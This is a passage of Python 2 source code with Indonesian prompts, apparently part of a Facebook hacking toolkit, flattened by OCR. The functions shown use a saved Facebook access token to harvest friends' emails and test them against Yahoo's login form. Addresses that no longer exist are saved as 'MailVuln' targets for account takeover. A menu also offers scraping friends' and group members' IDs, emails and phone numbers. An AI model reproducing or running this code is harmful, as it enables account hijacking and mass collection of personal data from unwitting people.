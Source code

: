 raw_input('\x1b[1;91m[?] \x1b[1;92mIngin membuat wordlist ? \x1b[1;92m[y/t]\x1b[1;91m:\x1b[1;97m ') if why == '': print '\x1b[1;91m[!] Tolong pilih \x1b[1;97m(y/t)' tanyaw() else: if why == 'y': wordlist() else: if why == 'Y': wordlist() else: if why == 't': menu_hack() else: if why == 'T': menu_hack() else: print '\x1b[1;91m[!] Tolong pilih \x1b[1;97m(y/t)' tanyaw() def menu_yahoo(): os.system('clear') try: toket = open('login.txt', 'r').read() except IOError: print '\x1b[1;91m[!] Token tidak ditemukan' os.system('rm -rf login.txt') time.sleep(1) login() os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' print '\x1b[1;37;40m1. Dari teman facebook' print '\x1b[1;37;40m2. Gunakan File' print '\x1b[1;31;40m0. Kembali' print yahoo_pilih() def yahoo_pilih(): go = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ') if go == '': print '\x1b[1;91m[!] Jangan kosong' yahoo_pilih() else: if go == '1': yahoofriends() else: if go == '2': yahoolist() else: if go == '0': menu_hack() else: print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + go + ' \x1b[1;91mTidak ada' yahoo_pilih() def yahoofriends(): os.system('clear') try: toket = open('login.txt', 'r').read() except IOError: print '\x1b[1;91m[!] Token tidak ditemukan' os.system('rm -rf login.txt') time.sleep(1) login() os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' mpsh = [] jml = 0 jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...') teman = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket) kimak = json.loads(teman.text) save = open('MailVuln.txt', 'w') print 40 * '\x1b[1;97m\xe2\x95\x90' for w in kimak['data']: jml += 1 mpsh.append(jml) id = w['id'] nama = w['name'] links = requests.get('https://graph.facebook.com/' + id + '?access_token=' + toket) z = json.loads(links.text) try: mail = z['email'] yahoo = re.compile('@.*') otw = yahoo.search(mail).group() if 'yahoo.com' in otw: br.open('https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com') br._factory.is_html = True br.select_form(nr=0) br['username'] = mail klik = br.submit().read() jok = re.compile('"messages.ERROR_INVALID_USERNAME">.*') try: pek = jok.search(klik).group() except: print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;91m ' + mail + ' \x1b[1;97m[\x1b[1;92m' + vulnot + '\x1b[1;97m]' continue if '"messages.ERROR_INVALID_USERNAME">' in pek: save.write(mail + '\n') print 40 * '\x1b[1;97m\xe2\x95\x90' print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama \x1b[1;91m:\x1b[1;97m ' + nama print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mID \x1b[1;91m:\x1b[1;97m ' + id print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;97m ' + mail + ' [\x1b[1;92m' + vuln + '\x1b[1;97m]' print 40 * '\x1b[1;97m\xe2\x95\x90' else: print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;91m ' + mail + ' \x1b[1;97m[\x1b[1;92m' + vulnot + '\x1b[1;97m]' except KeyError: pass print '\n\x1b[1;91m[+] \x1b[1;97mSelesai' print '\x1b[1;91m[+] \x1b[1;97mTersimpan \x1b[1;91m:\x1b[1;97m MailVuln.txt' save.close() raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu_yahoo() def yahoolist(): os.system('clear') try: toket = open('login.txt', 'r').read() except IOError: print '\x1b[1;91m[!] Token tidak ditemukan' os.system('rm -rf login.txt') time.sleep(1) login() else: os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' files = raw_input('\x1b[1;91m[+] \x1b[1;92mFile \x1b[1;91m: \x1b[1;97m') try: total = open(files, 'r') mail = total.readlines() except IOError: print '\x1b[1;91m[!] File tidak ada' raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu_yahoo() mpsh = [] jml = 0 jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...') save = open('MailVuln.txt', 'w') print 40 * '\x1b[1;97m\xe2\x95\x90' print '\x1b[1;91m[?] \x1b[1;97mStatus \x1b[1;91m: \x1b[1;97mRed[\x1b[1;92m' + vulnot + '\x1b[1;97m] Green[\x1b[1;92m' + vuln + '\x1b[1;97m]' print mail = open(files, 'r').readlines() for pw in mail: mail = pw.replace('\n', '') jml += 1 mpsh.append(jml) yahoo = re.compile('@.*') otw = yahoo.search(mail).group() if 'yahoo.com' in otw: br.open('https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com') br._factory.is_html = True br.select_form(nr=0) br['username'] = mail klik = br.submit().read() jok = re.compile('"messages.ERROR_INVALID_USERNAME">.*') try: pek = jok.search(klik).group() except: print '\x1b[1;91m ' + mail continue if '"messages.ERROR_INVALID_USERNAME">' in pek: save.write(mail + '\n') print '\x1b[1;92m ' + mail else: print '\x1b[1;91m ' + mail print '\n\x1b[1;91m[+] \x1b[1;97mSelesai' print '\x1b[1;91m[+] \x1b[1;97mTersimpan \x1b[1;91m:\x1b[1;97m MailVuln.txt' save.close() raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu_yahoo() def grab(): os.system('clear') try: toket = open('login.txt', 'r').read() except IOError: print '\x1b[1;91m[!] Token tidak ditemukan' os.system('rm -rf login.txt') time.sleep(1) login() os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' print '\x1b[1;37;40m1. Ambil ID teman' print '\x1b[1;37;40m2. Ambil ID teman dari teman' print '\x1b[1;37;40m3. Ambil ID member GRUP' print '\x1b[1;37;40m4. Ambil Email teman' print '\x1b[1;37;40m5. Ambil Email teman dari teman' print '\x1b[1;37;40m6. Ambil No HP teman' print '\x1b[1;37;40m7. Ambil No HP teman dari teman' print '\x1b[1;31;40m0. Kembali' print grab_pilih() def grab_pilih(): cuih = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ') if cuih == '': print '\x1b[1;91m[!] Jangan kosong' grab_pilih() else: if cuih == '1': id_teman() else: if cuih == '2': idfrom_teman() else: if cuih == '3': id_member_grup() else: if cuih == '4': email() else: if cuih == '5': emailfrom_teman() else: if cuih == '6': nomor_hp() else: if cuih == '7': hpfrom_teman() else: if cuih == '0': menu_hack() else: print '\x1b[1;91m[\xe2\x9c\x96]